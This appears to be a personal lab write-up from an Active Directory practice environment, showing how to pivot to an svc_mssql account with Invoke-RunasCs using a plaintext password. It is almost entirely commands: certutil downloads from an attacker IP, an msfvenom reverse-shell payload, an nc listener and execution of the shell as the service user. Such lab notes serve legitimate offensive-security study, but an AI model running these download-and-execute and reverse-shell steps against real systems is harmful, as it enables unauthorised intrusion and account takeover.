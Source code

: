 ## Here's a Script

https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1?source=post_page-----b95d3146cfe9---------------------------------------

### Invoke-RunasCs.ps1

```
certutil -urlcache -split -f http://192.168.45.152/Invoke-RunasCs.ps1
```

![[PG/Active Directory/attachments/Pasted image 20250707195346.png]]

Import it 

```
. ./Invoke-RunasCs.ps1
```


Test executing as mssql user 

```
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "whoami"
```


Yay it works!

![[PG/Active Directory/attachments/Pasted image 20250707195627.png]]

### Reverse Shell as Mssql

Get reverse shell using msfvenom 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.152 LPORT=445 -f exe > shell.exe
```

![[PG/Active Directory/attachments/Pasted image 20250707200100.png]]

Transfer 

```
certutil -urlcache -split -f http://192.168.45.152/shell.exe
```

Set up listener on port 445

```
sudo rlwrap nc -lvnp 445
```

Execute with RunAsCs

```
Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "shell.exe"
```

![[PG/Active Directory/attachments/Pasted image 20250707200437.png]]
